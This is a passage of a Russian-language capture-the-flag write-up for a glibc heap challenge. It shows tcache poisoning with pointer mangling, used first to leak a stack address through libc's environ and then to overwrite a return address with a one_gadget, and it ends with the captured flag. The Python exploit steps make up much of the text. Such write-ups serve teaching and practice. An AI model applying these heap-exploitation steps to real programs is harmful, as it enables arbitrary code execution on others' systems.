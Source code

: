 А значит, если мы отчисти 2 чанка, перепишем fp у последнего очищенного, следующий чанк выделится там, где мы захотим, а мы хотим, чтоб он выделился перед адресом environ, при этом, не переписав его (после выделения fp и heap key зануляются, то есть, зануляются первые 16 байт выделенного чанка, так что мы не можем выделится ровно по адресу environ, а должны чуть раньше, 16 байт занулятся, но read прочитает все 0x38 - получаем адрес стека)

```python
free(3)
free(4)
change(4, p64(mangle(heap_base, libc_base + LIBC_BASE_TO_ENVIRON_OFFSET - 24))) # &environ - 24

allocate() # 21 == 4 - выделяется чанк, с адресом, равным 4-ему чанку
allocate() # 22

environ_bytes_leak = read(22)
environ = u64(environ_bytes_leak[24:32])
logger.info("Environ 0x%x", environ)
```

После того, как мы узнали адрес стека, проворачиваем аналогичное на нём, при этом изменяя адрес возврата на libc one_gadeget

```python
free(5)
free(6)

change(6, p64(mangle(heap_base, environ - 0x158))) # смещение адреса возврата относительно environ
allocate() # 23 == 6
allocate(b"A" * 8 + p64(0) + p64(0) + p64(libc_base + 0x4f403)) # 24 - libc_one_gadget
```

Финальный штрих:

```
$ cat flag.txt
VKCTF{38_l1bc_h3@p5_824bbbfd2549a9506e6a011b089865b4}
```